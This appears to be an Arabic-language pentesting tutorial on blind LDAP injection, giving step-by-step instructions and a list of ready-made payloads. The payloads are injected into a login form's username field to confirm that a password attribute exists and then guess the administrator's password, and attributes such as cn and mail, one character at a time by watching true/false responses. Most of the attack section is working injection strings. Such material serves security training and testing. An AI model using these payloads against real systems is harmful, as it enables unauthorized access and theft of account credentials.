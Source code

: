 
## الخطوات العملية للاستغلال الأعمى
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة وتعديل الطلبات.
   - حدد حقل إدخال يتفاعل مع LDAP (مثل حقل اسم المستخدم في نموذج تسجيل الدخول أو حقل البحث).
2. **اختبار استعلام عام**:
   - ابدأ باستعلام واسع للتأكد من أن الخاصية موجودة (مثل `password=*`).
   - مثال: أدخل `(&(sn=administrator)(password=*))` وتحقق من الاستجابة.
3. **اختبار الأحرف تدريجيًا**:
   - اختبر الأحرف واحدًا تلو الآخر (مثل `password=A*`, `password=B*`, ...) لتحديد الحرف الأول.
   - بمجرد العثور على حرف صحيح (مثل `M*`), اختبر الأحرف التالية (مثل `MA*`, `MB*`, ...).
4. **مراقبة الاستجابات**:
   - حدد كيف يُظهر التطبيق الفرق بين **True** (OK) و**False** (KO). على سبيل المثال:
     - **OK**: صفحة تحتوي على نص معين (مثل "Welcome")، رمز حالة 200، أو طول استجابة مختلف.
     - **KO**: خطأ (مثل "Invalid credentials")، رمز حالة 403، أو صفحة فارغة.
5. **أتمتة العملية (اختياري)**:
   - إذا كان الاختبار اليدوي بطيئًا، استخدم سكربت لأتمتة إرسال الطلبات وتحليل الاستجابات.

---

## جميع المحاولات الممكنة للاستغلال الأعمى
في الاستغلال الأعمى، المحاولات تعتمد على بناء استعلامات LDAP لاختبار قيم تدريجية لخاصية معينة (مثل `password`, `cn`, `mail`). سأقسم المحاولات إلى فئتين:
1. **استعلامات يدوية**: للاختبار اليدوي باستخدام Burp Suite أو نموذج الإدخال.
2. **استعلامات للأتمتة**: للاستخدام مع سكربتات.

### 1. الاستعلامات اليدوية
تُستخدم هذه الاستعلامات عند اختبار الثغرة يدويًا عبر حقل إدخال (مثل اسم المستخدم أو البحث) أو باستخدام Burp Suite Repeater. الهدف هو تخمين قيمة خاصية (مثل كلمة المرور) حرفًا بحرفًا.

#### أ. اختبار وجود الخاصية
- **الاستعلام**: `(&(sn=administrator)(password=*))`
- **الإدخال**:
  - اسم المستخدم: `admin*)(&(sn=administrator)(password=*)`
  - كلمة المرور: `anything`
- **كيف يعمل**:
  - يتحقق مما إذا كانت خاصية `password` موجودة لمستخدم `administrator`.
  - الاستعلام الناتج: `(&(uid=admin*)(&(sn=administrator)(password=*))(userPassword=anything))`
  - إذا كانت الاستجابة **OK** (مثل صفحة مختلفة أو نص معين)، فالخاصية موجودة.
- **متى يُستخدم؟**:
  - كخطوة أولية للتأكد من أن الخاصية (مثل `password`) يمكن استهدافها.

#### ب. اختبار الحرف الأول
- **الاستعلامات**:
  - `(&(sn=administrator)(password=A*))`
  - `(&(sn=administrator)(password=B*))`
  - `(&(sn=administrator)(password=C*))`
  - ... (كرر لجميع الأحرف: A-Z, a-z, 0-9, ورموز مثل `_`, `@`, ...)
- **الإدخال**:
  - اسم المستخدم: `admin*)(&(sn=administrator)(password=A*)`
  - كلمة المرور: `anything`
- **كيف يعمل**:
  - يختبر ما إذا كانت كلمة المرور تبدأ بحرف معين (مثل `A`, `B`, ...).
  - إذا كانت الاستجابة **OK** لـ `M*` (مثل صفحة تحتوي على نص "Welcome")، فالحرف الأول هو `M`.
- **متى يُستخدم؟**:
  - لتحديد الحرف الأول من القيمة المستهدفة.

#### ج. اختبار الأحرف التالية
- **الاستعلامات** (بافتراض أن الحرف الأول هو `M`):
  - `(&(sn=administrator)(password=MA*))`
  - `(&(sn=administrator)(password=MB*))`
  - `(&(sn=administrator)(password=MC*))`
  - ... (كرر لجميع الأحرف)
- **الإدخال**:
  - اسم المستخدم: `admin*)(&(sn=administrator)(password=MA*)`
  - كلمة المرور: `anything`
- **كيف يعمل**:
  - يختبر الحرف الثاني بعد تأكيد الحرف الأول.
  - إذا كانت الاستجابة **OK** لـ `MY*`， فالحرف الثاني هو `Y`.
- **متى يُستخدم؟**:
  - لتخمين الأحرف التالية بعد تحديد الحرف الأول.

#### د. اختبار القيمة الكاملة
- **الاستعلامات** (بافتراض أنك وصلت إلى `MYK`):
  - `(&(sn=administrator)(password=MYKA*))`
  - `(&(sn=administrator)(password=MYKB*))`
  - ... (حتى تصل إلى القيمة الكاملة، مثل `MYKE`)
- **الإدخال**:
  - اسم المستخدم: `admin*)(&(sn=administrator)(password=MYKE))`
  - كلمة المرور: `anything`
- **كيف يعمل**:
  - يتحقق مما إذا كانت القيمة الكاملة صحيحة.
  - إذا كانت الاستجابة **OK** لـ `MYKE`، فهذه هي كلمة المرور.
- **متى يُستخدم؟**:
  - لتأكيد القيمة النهائية بعد تخمين الأحرف.

#### هـ. اختبار خصائص أخرى
- **الاستعلامات**:
  - `(&(sn=administrator)(cn=*))`
  - `(&(sn=administrator)(cn=A*))`
  - `(&(sn=administrator)(mail=*))`
  - `(&(sn=administrator)(mail=A*))`
- **الإدخال**:
  - اسم المستخدم: `admin*)(&(sn=administrator)(cn=A*)`
  - كلمة المرور: `anything`
- **كيف يعمل**:
  - يستهدف خصائص أخرى غير `password` (مثل `cn`, `mail`, `givenName`).
  - يتبع نفس المنطق: اختبار الأحرف تدريجيًا.
